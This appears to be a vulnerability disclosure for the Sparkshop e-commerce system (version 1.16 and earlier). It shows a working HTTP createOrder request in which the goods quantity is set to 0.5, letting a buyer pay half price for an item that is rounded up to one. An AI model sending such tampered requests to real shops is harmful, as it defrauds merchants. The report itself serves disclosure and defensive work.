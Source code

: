 ### Vulnerability Introduction

target:https://gitee.com/sparkshop/sparkshop

version: Sparkshop<=1.16

By modifying the quantity of goods in the order, we can achieve half price purchase of goods



### Vulnerability reproduction

First, obtain an order and modify the quantity of goods

```
POST /index/order/createOrder HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 173
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
sec-ch-ua-platform: "Windows"
Origin: 
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: 
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: sparkShop=

goods%5B0%5D%5Bgoods_id%5D=3&goods%5B0%5D%5Brule_id%5D=0&goods%5B0%5D%5Bnum%5D=0.5&pay_way=balance&coupon=0&address_id=1&cart_id=&orderType=1&remark=&deliver_type=1&store_id=0
```

Here we have changed the parameters of goods% 5B0% 5D% 5Bnum% 5D to 0.5, which ensures that the quantity of our products after purchase is rounded to 1.

![image-20241009164335987](./image-20241009164335987.png)

As shown in the picture, successfully purchased the product at half price.
